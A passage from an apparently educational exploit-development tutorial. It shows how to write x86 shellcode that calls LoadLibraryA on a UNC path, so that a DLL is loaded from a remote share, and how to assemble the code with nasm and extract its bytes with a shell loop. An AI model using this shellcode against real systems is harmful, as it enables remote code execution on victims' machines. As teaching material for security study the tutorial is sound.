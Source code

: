 4. Now we can push the argument to LoadLibraryA onto the stack, a pointer to the UNC string which we have just finished inserting onto the stack
	```
	push esp		; Pointer of the UNC path
	```
5. Now we need the address of the LoadLibraryA function, to get this information we can use [Arwin](https://github.com/xinwenfu/arwin) as shown below 
	```
	arwin.exe kernel32 LoadLibraryA
	```
	* `arwin.exe`: This is the arwin address resolution program
	* `kernel32`: This is the DLL that the function is stored in that we should search.
	* `LoadLibraryA`: The function who's address we are attempting to resolve

	<img src="Images/I25.png" width=600> 

6. Now that we have the address LoadLibraryA is loaded into we can insert the instructions to make the call to this library 
	```
	mov ebx,0x76ba12a0      ; Move into EBX the address of 'LoadLibraryA'
	call ebx 
	```
7. Once we have a [shellcode.asm](./SourceCode/shellcode.asm) file we can generate the shellcode we will use in the exploit!
	1. Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm`
		* `nasm`: Netwide Assembler, assembles assembly into x86 machine code.
		* `-f elf32`: elf32 format
		* `-o shellcode.o`: Shellcode File
		* `shellcode.asm`: input file
	2. Extract the binary with a simple [shell script](./SourceCode/extract.sh).
		```sh
		for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do 
			echo -n '\x'$i; 
		done; 
		echo
		```
		* `for i in`: For each value `$i` generated by the following command 
		* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode
			* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format
			* `grep "^ "`: Extract only those lines containing assembly
			* `cut -f2`: Extract the second field, this contains the hex representation of the instructions
		* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`
		* `echo`: Print an extra line
		* **Note**: If you create this file be sure to make it executable `chmod +x extract.sh`, then you can run it using the command `./extract.sh`
